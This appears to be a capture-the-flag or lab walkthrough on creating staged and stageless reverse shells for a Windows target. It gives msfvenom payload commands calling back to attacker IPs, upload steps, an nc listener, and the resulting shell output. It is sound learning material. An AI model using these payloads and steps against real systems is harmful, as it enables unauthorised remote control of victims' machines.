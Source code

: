 \[+] Meterpreter session 1 opened (10.10.248.19:1234 -> 10.10.70.179:50335) at 2024-01-11 17:35:22 +0000

Create both staged and stageless meterpreter shells for either target. Upload and manually activate them, catching the shell with netcat -- does this work?

**Create stageless meterpreter shell for Windows target.**

1. Create the msfvenom payload.

msfvenom -p windows/x64/shell\_reverse\_tcp -f exe -o shell2.exe LHOST=10.10.18.162 LPORT=1234

1. Upload shell2.exe to target.

* Browse to http://10.10.70.179 in attacker’s browser.
* Click ‘Browse’ button.
* Navigate to /root/shell2.exe.
* Click ‘Open’ to select the file.
* Click ‘Submit’ to upload the file.

1. Create nc listener on attacking machine.

nc -lvnp 1234

1. Execute the shell.

* RDP to the target.
* Open a browser.
* Browse to http://127.0.0.1/uploads.
* Save shell2.exe.
* Run file.

1. Session is established.

Connection from 10.10.70.179 50849 received!

Microsoft Windows \[Version 10.0.17763.1637]

(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Downloads>

**Create staged meterpreter shell for Windows target.**

1. Create the msfvenom payload.

msfvenom -p windows/x64/shell/reverse\_tcp -f exe -o shell3.exe LHOST=10.10.18.162 LPORT=1234

1. Upload shell3.exe to target server.

* Browse to http://10.10.70.179 in attacker’s browser.
* Click ‘Browse’ button.
* Navigate to /root/shell2.exe.
* Click ‘Open’ to select the file.
* Click ‘Submit’ to upload the file.

1. Create nc listener on attacking machine.

nc -lvnp 1234

1. Execute the shell.

* RDP to the target.
* Open a browser.
* Browse to http://127.0.0.1/uploads.
* Save shell3.exe.
* Run file.

1. Session established.

connection from 10.10.70.179 51018 received!
